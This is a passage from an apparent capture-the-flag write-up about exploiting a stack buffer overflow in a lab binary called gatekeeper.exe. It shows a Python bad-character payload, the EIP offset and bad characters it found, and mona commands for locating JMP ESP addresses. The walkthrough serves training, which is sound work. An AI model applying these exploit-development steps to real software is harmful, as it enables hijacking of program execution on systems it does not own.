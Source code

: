 3. Then update the `payload` variable in your `overflow_gatekeeper_find_badchars.py` script and remove the **new badchars** `"\x00\x0a"`.

    - ![image](https://user-images.githubusercontent.com/94720207/169707232-2358b69a-7b92-4b7b-8975-f9acda3c5ece.png)

```python
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
 
### Results

1. **Crashing with `5000` bytes flooding at once**

2. **Crashing with an exact offset of `146` bytes**

3. **Controlling EIP adding `BBBB` / `42424242` at offset `146` +1+2+3+4 bytes**

4. **Badchars found: `\x00\x0a`**

    - NOTE: Restart `Immunity Debugger` + `gatekeeper.exe` (`CTRL + F12`)

---

### 4. Finding a Jump Point

- With the `gatekeeper.exe` either **running or in a crashed state**, run the following `mona` command...

    - **Making sure to update the `-cpb` option with all the `badchars` you identified (including `\x00`)**:

        - `!mona jmp -r esp -cpb "\x00\x0A"`

    - This command finds all `JMP ESP` (or equivalent) instructions with addresses that don't contain any of the badchars specified. 
    
    - ![image](https://user-images.githubusercontent.com/94720207/169707638-078616e6-e895-45e5-9147-fe5e7583dda5.png)
    
    - Other option with the same result is using the command:
    
        - `!mona jmp -r esp -m gatekeeper.exe`  
     
    - ![image](https://user-images.githubusercontent.com/94720207/169707718-26599070-60be-4358-8bf1-fcf20cf9b601.png)

    - The results should display in the `Log data` window (use the Window menu to switch to it if needed).
